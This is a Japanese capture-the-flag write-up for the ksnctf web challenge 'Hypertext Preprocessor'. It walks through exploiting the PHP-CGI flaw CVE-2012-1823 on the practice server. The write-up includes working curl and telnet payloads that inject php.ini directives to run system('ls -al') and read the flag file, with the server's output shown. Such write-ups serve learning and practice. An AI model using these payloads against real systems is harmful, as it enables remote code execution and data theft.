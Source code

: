 # ksnctf: Hypertext Preprocessor

**Category:** Web  
**Points:** 70pt  
**Description:**  

> http://ctfq.sweetduet.info:10080/~q12/

**Hint:**

>

## 解き方
問題分のURLへアクセスすると，こんな感じ．

![img01](../assets/img/Screenshot_2018-12-05_17-37-31.png)

タイトルは`Clock`と表示されているので何かの時間だろうか．`2012:1823:YY:YY:MM:DD:HH:mm:SS:...`っぽい．ちなみに問題のタイトルは`Hypertext Preprocessor`でPHPの事．

`2012:1823`がPHPと関連ありそうなので，Google先生に尋ねてみると`CVE-2012-1823`がヒット．徳丸さんの記事が出てきた．

[CGI版PHPにリモートからスクリプト実行を許す脆弱性](https://blog.tokumaru.org/2012/05/php-cgi-remote-scripting-cve-2012-1823.html)

Webサーバ上のPHPがCGI環境で動作している場合，リモートでPHPスクリプトの閲覧や任意コードが実行できちゃう類の脆弱性．URLの末尾に`?-s`と付け加えることで，ソースコードが表示された場合はこの脆弱性の対象となるとのこと．[JPCERT/CC](https://www.jpcert.or.jp/at/2012/at120016.html)にも情報はあった．

```
$ curl -I http://ctfq.sweetduet.info:10080/~q12/
HTTP/1.1 200 OK
Date: Wed, 05 Dec 2018 10:38:24 GMT
Server: Apache/2.2.15 (CentOS)
X-Powered-By: PHP/5.4.1
Connection: close
Content-Type: text/html; charset=UTF-8
```

HTTPのレスポンスヘッダーを確認すると`PHP/5.4.1`が動作していると確認できた．`CVE-2012-1823`の対象versionである．故に，ブラウザ上で`http://ctfq.sweetduet.info:10080/~q12/index.php?-s`にアクセスするとPHPスクリプトを閲覧できる．

```php
<?php
    //  Flag is in this directory.
    date_default_timezone_set('UTC');
    
    $t = '2012:1823:20:';
    $t .= date('y:m:d:H:i:s');
    for($i=0;$i<4;$i++)
        $t .= sprintf(':%02d',mt_rand(0,59));
?>
```

コメントに`Flag is in this directory.`とあることから，同じ階層に`flag.txt`か何かしらのflag情報が配置されていると思われる．よって，ディレクトリ調査としてPHPの`-d`オプションを使う．これにより`php.ini`の書き換えができる．  
参考: [CVE-2012-1823 CVE-2012-2311 PHPのCGIモードにおける脆弱性について](https://sect.iij.ad.jp/d/2012/05/087662.html)

実行にあたっては徳丸さんの記事を参考にした．

> CVE-2012-1823の影響はスクリプトソースの表示だけではありません。PHPのオプションを組み合わせることにより、外部から任意のスクリプト実行が可能となります。具体的には、-dオプションを用いて、php.iniのディレクティブを外部から指定できます。 metasploitminute.comで紹介されていたExploitを元に、攻撃例を紹介します。以下の2つのphp.iniディレクティブを指定します。 allow_url_include=On auto_prepend_file=php://input ? 最初のディレクティブは、includeするファイルをURL指定でリモートから読み出すことを許可するものです。2番目のディレクティブは、PHP実行に先立ち、スクリプトをincludeしておくものですが、ファイル名としてphp://inputを指定しているため、POSTパラメータとして送信した内容をPHPスクリプトとして実行します。両者の組み合わせにより、外部から指定したスクリプトを実行することができます。

`curl`を使って，`ls -al`ディレクトリ内部を表示してみる．

```
$ curl "http://ctfq.sweetduet.info:10080/~q12/?-d+allow_url_include%3DOn+-d+auto_prepend_file%3Dphp://input" -X POST -d "<?php system('ls -al'); ?>"
total 18668
dr-x--x--x 2 q12  q12      4096 Dec  5 20:00 .
drwx--x--x 3 root root     4096 Dec  5 20:00 ..
-r--r--r-- 1 q12  q12        90 Dec  5 20:00 .htaccess
-r-------- 1 q12  q12        22 Dec  5 20:00 flag_flag_flag.txt
-r-xr-xr-x 1 q12  q12       600 Dec  5 20:00 index.php
-r-xr-xr-x 1 q12  q12  19093315 Dec  5 20:00 php.cgi
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>Clock</title>
    <style>
      body
      {
        background: black;
      }
      p
      {
        color: red;
        font-size: xx-large;
        font-weight: bold;
        text-align: center;
        margin-top: 200px;
      }
    </style>
  </head>
  <body>
    <p>2012:1823:20:18:12:05:11:03:23:02:07:32:22</p>
  </body>
</html>
```

しっかり`ls`を実行できている．こわいなー．`flag_flag_flag.txt`を表示するために`cat`するとflagを取得できた．

```
$ curl "http://ctfq.sweetduet.info:10080/~q12/?-d+allow_url_include%3DOn+-d+auto_prepend_file%3Dphp://input" -X POST -d "<?php system('cat flag_flag_flag.txt'); ?>"

- 省略 -
```

telnetで`POST /~q12/index.php?-d+allow_url_include%3don+-d+safe_mode%3doff+-d+suhosin.simulation%3don+-d+disable_functions%3d""+-d+open_basedir%3dnone+-d+auto_prepend_file%3dphp://input+-d+cgi.force_redirect%3d0+-d+cgi.redirect_status_env%3d0+-n HTTP/1.1`とリクエストを投げても同様の結果が得られた．